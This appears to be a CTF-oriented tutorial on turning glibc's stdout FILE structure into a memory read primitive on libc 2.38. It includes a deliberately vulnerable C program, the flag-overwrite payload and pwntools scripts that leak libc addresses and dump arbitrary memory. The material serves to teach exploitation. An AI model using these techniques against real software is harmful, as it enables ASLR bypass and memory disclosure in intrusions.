




## Using STDOUT as a read primitive. (libc 2.38 and lower)

In this short article, I will summarize the technique of using STDOUT as a read primitive.

This article is based on well-known techniques used by pwners for a long time, and which  have already been extensively described in the past, as in the excellent article by AngelBoy **"Play with FILE Structure"**. 

Here, I wanted to focus solely on the practical  aspects of these techniques, providing code examples quick to reuse,  and experiment on the latest versions of libc.

This technique is often used for heap challenges,  for leaking `libc` addresses,

and calculating the libc base address mapping, but it can also be used as a more general read primitive.

Many leakless heap challenges use the same technique, by doing a partial overwrite of stdout structure.

At the time of writing (october 2023), the latest version of libc is 2.38.

so we'll be doing all our experiments on this version.

------

### 1 - C program template for our experiments

Ok, so, here is a small C program that we will use for our experiments:

```c
// gcc -g -o prog prog.c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

static void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

uint64_t getint(char *msg)
{
char buf[64];

	printf("%s", msg);
	fgets(buf,64,stdin);
	return strtoul(buf,0,10);
}

int main()
{
uint64_t choice;
uint64_t addr;
uint64_t size;

	setup();
	printf("libc stdout leak: %p\n", stdout);
	while(1)
	{
		puts("1. write data to addr");
		puts("2. exit");
		choice = getint("choice> ");
		if (choice == 2)
			break;
		else if (choice == 1)
		{
			addr = getint("address> ");
			size = getint("size> ");
			printf("data> ");
			fread((void *)addr,size,1,stdin);
		}
		else
			continue;
	}
	return(0);
}
```

This little program will give us a leak of the libc address of `stdout`(internally named: `_IO_2_1_stdout`)

and it will print a menu that allowed us two actions:

+ write data to a given address
+ exit.

Very simple, and more than enough for our experiments..

For our experiments, we will also use a libc and ld version with full symbols, I put on my github the libc-2.38 and ld.so with full debugging symbols, if your system is using older libc,  you can force the binary to use with `patchelf` 

```sh
gcc -g prog.c -o prog
patchelf --set-interpreter ./ld-linux-x86-64.so.2 --set-rpath . ./prog
```

------

### 2 - `FILE` structure overview:

Here is a picture of the file structure used by `_IO_2_1_stdout`,

left is structure entries name, and right their offset in memory from the beginning of structure:



------

### 3 - the simple libc addresses leak technique

This method is used in many **"leakless"** heap challenges, to have a leak of some libc addresses.

Most of the time, these heap challenges reuse a `main_arena` libc address leaved on heap by an unsorted memory chunk for example, and by modifying its two `LSB` bytes, try to get a chunk of memory allocated on `stdout` structure.

In most of the libc, `stdout` is very near from `main_arena`, for example for `libc-2.38` `stdout` is just 0xb00 bytes after `main_arena`.

As the lower 12bits of any libc address is fixed and does not vary with `ASLR`, overwriting two lsb bytes of a  `main_arena` address on heap  with `stdout` address two `LSB` bytes, leaves only 4 bits of ASLR to be guessed.

There is a 1/16 chance of having an allocation on `stdout`, so it is a very easy and quick bruteforce.

to make `stdout` leaking some libc addresses, we use a payload like this to overwrite beginning of `stdout`structure:

```python
payload = p64(0xfbad1887)+p64(0)*3+p8(0)
```

You can see that first value modify `_flags`entry, changing its original value 0xfbad2887 to 0xfbad1887.

then it set the three pointers `_IO_read_ptr`, `_IO_read_end`, `_IO_read_base`  to zero.

and it set, the lsb byte of `_IO_write_base`to zero.

here is a small python exploit to test this this on our `prog`binary

```python
from pwn import *
context.log_level="debug"
p = process("./prog")

# define a write macro
def write(addr, data):
  p.sendlineafter('choice> ', '1')
  p.sendlineafter('> ', str(addr))
  p.sendlineafter('size> ', str(len(data))+'\x00')
  p.sendafter('data> ', data)

    # use given leak for experiments, will need no leak on real challenge
p.recvuntil('leak: ', drop=True)
stdout = int(p.recvuntil('\n',drop=True),16)

payload = p64(0xfbad1887)+p64(0)*3+p8(0)
write(stdout, payload)
p.interactive()
```

so, let's try our exploit, and examine its output, we will used pwntools debug mode, to examine data sent and received:



you can see first our payload sent, and the values returned, where there is a libc address,

we can verify that by examining `stdout`structure:



we can see that the `_IO_write_base` original value, is `0x7f14099ff823` before our payload overwrite,

than when we will overwrite the lsb byte of `_IO_write_base` with zero, it's value will be changed to `0x7f14099ff800`

and by examining the data at this address (`x/10gx 0x7f14099ff800`) we can verify that it's exactly the value that are returned to us by `stdout`..

so basically it returns us value between `0x7f14099ff800` and `0x7f14099ff823` so in total exactly 0x23 bytes,

as we can see in the value returned.

That's how this classic libc address leak techniques works..

------

#### 4 - Extending the technique to a more general read primitive.

So now that we start to see more how this work,

we can extend that simple technique to a more general read primitive, that will permit to read in data at any known addresses.

let's extend our previous exploit, to add it a read primitive macro:

```python
from pwn import *
context.log_level="info"

p = process("./prog")

def write(addr, data):
  p.sendlineafter('choice> ', '1')
  p.sendlineafter('> ', str(addr))
  p.sendlineafter('size> ', str(len(data))+'\x00')
  p.sendafter('data> ', data)

# stdout read primitive
def readmem(stdout_addr, addr, size, returned=0):
  temp = p64(0xfbad1887) + p64(0)*3 + p64(addr) + p64(addr+size)*3 + p64(addr+size+1)
  write(stdout_addr, temp)
  if returned:
    return p.recv(size)

# use given leak for experiments, will need no leak on real challenge
p.recvuntil('leak: ', drop=True)
stdout = int(p.recvuntil('\n',drop=True),16)
print(hexdump(readmem(stdout, stdout-0xcf0, 256, 1)))
p.interactive()
```

This little test program, will dump 256 bytes of data from memory just before stdin (at stdout - 0xcf0)

as you can see here:



so now we have a controlled read primitive.

------

### 5 - references

if you want to learn more about these techniques, I highly recommend that you read angleboy's reference article;

 https://paper.bobylive.com/Meeting_Papers/HITB/2018/D1%20-%20FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf  

